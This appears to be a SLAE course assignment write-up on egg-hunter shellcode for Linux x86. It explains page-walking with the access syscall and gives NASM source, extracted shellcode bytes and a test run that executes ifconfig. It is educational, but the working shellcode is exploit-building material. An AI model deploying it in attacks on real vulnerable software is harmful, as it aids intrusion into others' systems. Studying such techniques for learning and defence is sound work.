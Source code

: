 **Assignment 3**

	Shellcode for Egghunter  

**Introduction**

	In a normal buffer overflow scenario, the location of where the shellcode is placed is more or less static and/or could be referenced by using a register and the available size in the stack memory is enough to fit the shellcode.Consider a scenario where the available buffer size is too small to squeeze the entire shellcode

	A technique called egg hunting may help us out here. Accoring to corelan ,Egg hunting is a technique that can be categorized as “staged shellcode”, and it basically allows you to use a small amount of custom shellcode to find your actual (bigger) shellcode (the “egg”) by searching for the final shellcode in memory.  In other words, first a small amount of code is executed, which then tries to find the real shellcode and executes it.

	There are 3 conditions that are important in order for this technique to work

		1. You must be able to jump to (jmp, call, push/ret) & execute “some” shellcode.  The amount of available buffer space can be relatively small, because it will only contain the so-called “egg hunter”.  The egg hunter code must be available in a predictable location (so you can reliably jump to it & execute it)

		2. The final shellcode must be available somewhere in memory (stack/heap/…).

		3. You must “tag” or prepend the final shellcode with a unique string/marker/tag. The initial shellcode (the small “egg hunter”) will step through memory, looking for this marker. When it finds it, it will start executing the code that is placed right after the marker using a jmp or call instruction.  This means that you will have to define the marker in the egg hunter code, and also write it just in front of the actual shellcode.


	Good Reads :
			https://www.fuzzysecurity.com/tutorials/expDev/4.html
			https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
			http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
			http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html


**Methodology**

	The x86 processors in 32-bit mode support page sizes of 4KB, 2MB, and 4MB. Both Linux and Windows map the user portion of the virtual address space using 4KB pages. Bytes 0-4095 fall in page 0, bytes 4096-8191 fall in page 1, and so on.

	The Egghunter code will be browsing through the pages to look for the marker / egg and use access function to see the pages are accessible or not . If we get a efault error for a page ,we can skip that  page and check the next page.Once a valid page is found we look for the egg/marker and jmp on the codepart of the egg/marker


	Access Function

		access() checks whether the calling process can access the file pathname.
		Refer : https://linux.die.net/man/2/access

		int access(const char *pathname, int mode);

		Parameters
			*pathname will be the addresslocation of the page we want to check
			The mode specifies the accessibility check(s) to be performed, and is either the value F_OK, or a mask consisting of the bitwise OR of one or more of R_OK, W_OK, and X_OK. F_OK tests.

	Incase of a access deny , and EFAULT will be returned ie (14)



	Our egg would be 0x41414141 and the egghunter will look for 0x41414141 + "/bin/bash -c ifconfig" shellcode through the memory.once found code will jump onto /bin/sh shellcode

	8bytes 0x4141414141414141 is considered because we dont wanna match the egghunter shellcode itself


		global _start



		section .text

		_start:

        		; initialization
        		xor ecx, ecx
        		mul ecx          		#will clear ecx,eax and edx register
        		xor ebx, ebx
        		xor esi, esi

		next_lpage:
        		or dx,0xfff                
        						#using logical or with 0xfff and a memory address allows us to increment page sizes by a multiple of 4095. so next page is acheived using address location or ed with 0xfff , 4095 and 
        							adding a 1
        						#the reason we cant just increment page sizes with 4096 is hex(4096) = 0x1000 cause a null byte to be added in the shellcode								

		next_incr:
        		inc edx         		#page increment

        						;access function  to check permission

        		xor eax,eax       		#clear eax
        		mov edi,0x41414141      	#edi contains the egg we are looking for .
        		mov al,0x21             	#EAX conatins 33 , access function call number
        							#cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 33
        							##define __NR_access              33


        		lea ebx,[edx+8]         	#load the address value contained in edx + 8  to ebx 
        		int 0x80                	#access call to check if the page is accessible
        		cmp al,0xf2

        							#after the function call eax contains the return value , in case of 		EFAULT (bad address) the value we are looking for is 14 , ie  cat /usr/include/asm-generic/errno-base.h

        							Since this is an error code it will actually be returned as a negative 14 thus in hex we get back 0xfffffff2  #2s compliment	

        							-14 

									0000 1110 
									1111 0001 + 
							                1 
									-------------- 
									1111 0010 
									F   2

        		jz next_lpage  			#incase of a efaul , jump to next page

        		cmp edi,[edx]  			#egg match find ?
        		jnz next_incr  			#if not advance memory

        		cmp edi,[edx+4]         #eggmatch twice ?
        		jnz next_incr			#if not advance page

        		lea esi,[edx+8]			#egg match twice , get the address location of the shellcode to be executed to esi
        		jmp esi				#jmp to location pointed by esi

**Practical**

Egg is 0x41414141 , the shellcode to be executed

	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./compile.sh egg
 	Assembling with nasm
	Success, Now Linking
	Go Ahead, may the force be with you
	toor@ubuntu:~/Desktop/slae/Assignments/3$ objdump -d ./egg|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
		"\x31\xc9\xf7\xe1\x31\xdb\x31\xf6\x66\x81\xca\xff\x0f\x42\x31\xc0\xbf\x41\x41\x41\x41\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xe8\x3b\x3a\x75\xe9\x3b\x7a\x04\x75\xe4\x8d\x72\x08\xff\xe6"


	toor@ubuntu:~/Desktop/slae/Assignments/3$ nano poc.c
	toor@ubuntu:~/Desktop/slae/Assignments/3$ gcc -fno-stack-protector -z execstack poc.c -o shellcode
	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./shellcode
	Size: 47 bytes.
	eth0    Link encap:Ethernet  HWaddr 00:0c:29:f5:aa:6c
         	inet addr:192.168.230.169  Bcast:192.168.230.255  Mask:255.255.255.0
          	inet6 addr: fe80::20c:29ff:fef5:aa6c/64 Scope:Link
          	UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          	RX packets:83289 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:34547 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:1000
          	RX bytes:57571168 (57.5 MB)  TX bytes:6962937 (6.9 MB)
          	Interrupt:19 Base address:0x2000
		
	lo      Link encap:Local Loopback
          	inet addr:127.0.0.1  Mask:255.0.0.0
          	inet6 addr: ::1/128 Scope:Host
          	UP LOOPBACK RUNNING  MTU:65536  Metric:1
          	RX packets:6986 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:6986 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:0
          	RX bytes:627379 (627.3 KB)  TX bytes:627379 (627.3 KB)

	toor@ubuntu:~/Desktop/slae/Assignments/3$




**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
        	

